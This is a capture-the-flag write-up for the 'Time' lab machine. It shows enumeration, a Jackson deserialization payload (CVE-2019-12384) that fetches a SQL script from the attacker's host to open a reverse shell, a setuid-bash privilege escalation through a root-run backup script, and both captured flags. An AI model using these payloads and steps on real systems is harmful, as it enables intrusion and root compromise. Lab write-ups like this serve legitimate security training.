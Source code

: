 # Time

export IP=10.10.10.214

## Solution

Start with nmap ... <br>

cmd: nmap -sC -sV -oN nmap/init $IP
```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0f:7d:97:82:5f:04:2b:e0:0a:56:32:5d:14:56:82:d4 (RSA)
|   256 24:ea:53:49:d8:cb:9b:fc:d6:c4:26:ef:dd:34:c1:1e (ECDSA)
|_  256 fe:25:34:e4:3e:df:9f:ed:62:2a:a4:93:52:cc:cd:27 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Online JSON parser
```

lets run a gobuster and visit the website !! 

cmd: gobuster dir -u http://$IP -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt -o gobuster/big.log -x .php,.html,.txt -t 80
```
/.htaccess (Status: 403)
/.htaccess.txt (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.php (Status: 403)
/.htpasswd.html (Status: 403)
/.htpasswd.txt (Status: 403)
/.htaccess.php (Status: 403)
/.htaccess.html (Status: 403)
/css (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/index.php (Status: 200)
/javascript (Status: 301)
/js (Status: 301)
/server-status (Status: 403)
/vendor (Status: 301)
```

Nothing really interesting from the source code nor enumeration! <br>

Trying a template injection (with the validate option) throws a java error!<br>

```
Validation failed: Unhandled Java exception: com.fasterxml.jackson.databind.exc.MismatchedInputException: Unexpected token (START_OBJECT), expected START_ARRAY: need JSON Array to contain As.WRAPPER_ARRAY type information for class java.lang.Object
```

Unhandled Java exception: com.fasterxml.jackson.databind.exc.MismatchedInputException: Unexpected token (START_OBJECT), expected START_ARRAY: need JSON Array to contain As.WRAPPER_ARRAY type information for class java.lang.Object

Since the packages names contain the app name, lets search for:
```
jackson data bind fasterxml vulns
```

There is a CVE for this vulnerability that i think that might work (CVE-2019-14540) <br>

Turns out that the right CVE is not the one above but: <br>

To trigger the deserialization execution we need to use the field "validate (beta!)" and supply this ! <br>

```
["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.14.242:8000/CVE-2019-12384/inject.sql'"}]
```

Inside the inject.sql will be a bash revshell to my machine <br>

And voila, we got a shell !

```
whoami
pericles

ls ~/
user.txt

cat ~/user.txt
FLAG: 68d5f92db9096f874e758f2a42eb2ca7
```

Now lets escalate to root ! <br>

After running linpeas one thing jumps out from the produced log ! 

```
/usr/bin/timer_backup.sh

-rw-r--r-- 1 root root 2743 Apr 23  2020 /etc/apt/sources.list.curtin.old                                                                                                                                                                  
-rw-r--r-- 1 root root 214 Oct 23 06:46 /etc/systemd/system/timer_backup.timer
-rw-r--r-- 1 root root 159 Oct 23 05:59 /etc/systemd/system/timer_backup.service
-rw-r--r-- 1 root root 106 Oct 23 04:57 /etc/systemd/system/web_backup.service
```

Well, the script is rebuilt after some runs but what had me rolling over my chair was that i was appending "touch /tmp/dummy" and it was not creating the file... <br>

After a while i remember that i found a similar issue in other cron thing where the root would not create things in the /tmp folder and then i changed for the user folder! <br>

And voila, it worked!! <br>

```
cmd: echo "cp /bin/bash /home/pericles/waza/root && chmod +s /home/pericles/waza/root"

WAIT FOR THE TASK TO RUN

./root -p 

whoami 
root

cat /root/root.txt
FLAG: 4b7dab85c3eafa42aededceab8481e2a
```